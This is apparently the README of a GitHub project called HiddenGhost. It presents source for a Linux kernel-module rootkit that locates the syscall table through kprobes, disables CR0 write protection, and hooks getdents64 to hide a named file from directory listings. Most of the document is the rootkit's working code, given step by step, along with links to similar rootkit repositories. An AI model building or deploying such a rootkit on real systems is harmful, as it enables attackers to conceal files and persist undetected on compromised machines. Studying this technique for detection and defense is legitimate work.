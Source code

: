 == HiddenGhost
 
Dante's Ghost *is an new solution for find system call table with support for 5.7x kernels +*. Dante's Ghost finds the syscall table via the ```kallsyms_lookup_name``` module with the ```<linux/kprobes.h>``` headder.

Before starting the explanation of how the rootkit works in depth I will explain the basics.

** What is Hooking:

Hooking is the act of redirecting/modifying a certain code stream, this redirect technique can be used for good and for bad, a big example of using this technique is mid function hooking This time I saw an example midFunction hook in the Unknown cheats forum that created a function ```jmp 0xE9``` at address ```pAddres``` I won't take much of your time explaining how it works and such because there are articles about it, I left two articles at the end of this readme, mine where I explain in depth about lkm and the one about MidFunction hook.

** And how does it hook the syscall?

* 1) Find the Syscalls Table:

- The ``find_syscall_table`` function uses the kprobes module to find the address of the kernel syscall table (sys_call_table).

```
unsigned long *find_syscall_table(void)
{
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;

    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);

    __syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
    return __syscall_table;
}
```

* 2) Unprotect Memory

- The ``unprotect_memory`` function disables write protection on the page containing the syscall table, allowing the rootkit to modify the syscall table.

```
static inline void unprotect_memory(void)
{
    write_cr0_forced(cr0 & ~0x00010000);
}
```

* 3) Replace the Original Function

- In ghost_init, the address of the original getdents64 syscall is saved and replaced with the address of the hook function (hook_getdents64).

```
static int __init ghost_init(void)
{
    __syscall_table = find_syscall_table();
    if (!__syscall_table) {
        printk(KERN_INFO "Error, syscall_table not found");
        return -1;
    }

    cr0 = read_cr0();
    orig_getdents64 = (void *)__syscall_table[MY_NR_getdents];
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)hook_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit loaded: Syscall hooked\n");
    return 0;
}
```

* 4) Protect Memory

After replacement, write protection is restored.

```
static inline void protect_memory(void)
{
    write_cr0_forced(cr0);
}
```

* 5) Interception and Manipulation

- The hook function hook_getdents64 intercepts calls to getdents64, checks file names, and hides any file named file_to_hide. 

```
asmlinkage int hook_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
    int ret = orig_getdents64(fd, dirp, count);
    struct linux_dirent64 *d, *kd, *kdirent = NULL;
    unsigned long offset = 0;

    if (ret <= 0)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (kdirent == NULL)
        return ret;

    if (copy_from_user(kdirent, dirp, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (offset < ret) {
        d = (struct linux_dirent64 *)((char *)kdirent + offset);
        if (strcmp(d->d_name, "file_to_hide") == 0) {
            memmove(d, (char *)d + d->d_reclen, ret - offset - d->d_reclen);
            ret -= d->d_reclen;
        } else {
            offset += d->d_reclen;
        }
    }

    copy_to_user(dirp, kdirent, ret);
    kfree(kdirent);
    return ret;
}
```

* 6) Unloading and Restoring

- When unloading the module, the original syscall is restored:

```
static void __exit ghost_exit(void)
{
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)orig_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit unloaded: Syscall restored\n");
}
```

link of articles: 

https://github.com/Ch4r0nN/LKM-Exploration[LKM-Exploration Making drivers from basic to advanced]


https://www.unknowncheats.me/forum/c-and-c-/67884-mid-function-hook-deal.html[Unknown Cheats]

Links to the repositories I based on:

https://github.com/m0nad/Diamorphine[Diamorphine]

https://github.com/xcellerator/linux_kernel_hacking[Linux Kernel Hacking]
